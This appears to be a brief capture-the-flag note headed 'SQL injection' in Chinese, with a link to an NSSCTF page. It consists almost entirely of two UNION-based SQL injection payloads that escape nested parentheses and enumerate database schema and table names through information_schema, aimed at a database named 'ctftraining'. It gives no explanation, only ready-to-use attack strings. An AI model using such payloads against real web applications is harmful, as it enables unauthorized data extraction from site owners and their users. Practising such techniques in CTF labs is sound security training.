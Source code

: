 #SQL 注入

```sql
?id=-1)))))) union select schema_name,2 from information_schema.schemata%23


?id=-1)))))) union select group_concat(table_name),2 from information_schema.tables where table_schema='ctftraining'%23

```

https://www.nssctf.cn/note/set/2169
